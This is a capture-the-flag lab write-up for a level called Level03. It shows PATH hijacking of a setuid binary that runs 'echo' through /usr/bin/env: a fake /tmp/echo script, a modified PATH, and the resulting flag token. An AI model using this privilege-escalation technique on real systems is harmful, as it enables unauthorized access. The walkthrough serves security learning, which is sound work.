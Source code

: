 <h1 id="level03">Level03</h1>
<ul>
	<li>We spawn with a <code>level03</code> file in root repository</li>
	<li>No extension so I try to execute it and it prints &#39;Exploit me&#39;</li>
	<li>Then I try to <em>cat</em> the file but its unreadable</li>
	<li>Using &#39;file&#39;
		<blockquote>
		<p><code>level03: setuid setgid ELF 32-bit LSB executable</code></p>
		</blockquote>
	</li>
	<li>I still wanted to get a good look at the file so I used:
	<blockquote>
		<p>
		<code>objdump -M Intel -d level03</code>
		<p><em>The -M Intel to get a more readable asm for me</em></p>
		</p>
	</blockquote>
	</li>
	<li>Code was still kinda bad so I did a little script to make it cleaner
		<blockquote>
		<p><code>sh cutlines.sh</code></p>
		</blockquote>
	</li>
	<li>We can see many calls but one of them is a system one</li>
	<li>So when we look into it on <code>gdb</code><blockquote>
	<p><code>0x80485e0:       &quot;/usr/bin/env echo Exploit me&quot;</code></p>
	</blockquote>
	</li>
	<li>It seems like <code>echo</code> is vulnerable to manipulation since it&#39;s called using <code>/usr/bin/env</code> which makes the computer use the first binary found in <code>PATH</code></li>
	<li>So we should be able to create a script called echo to get the flag for us !
	<blockquote>
		<p><code>echo &#39;getflag&#39; &gt; /tmp/echo</code></p>
		<p><code>export PATH=/tmp:$PATH</code></p>
		<p><code>./level03</code></p>
	</blockquote>
	</li>
	<li>DOESN&#39;T WORK ! WHY ? (Well I forgot a little something)
		<blockquote>
			</p><code>chmod +x /tmp/echo</code></p>
			</p><code>./level03</code></p>
			</p><code>Check flag.Here is your token : qi0maab88jeaj46qoumi7maus</code></p>
		</blockquote>
	</li>
</ul>
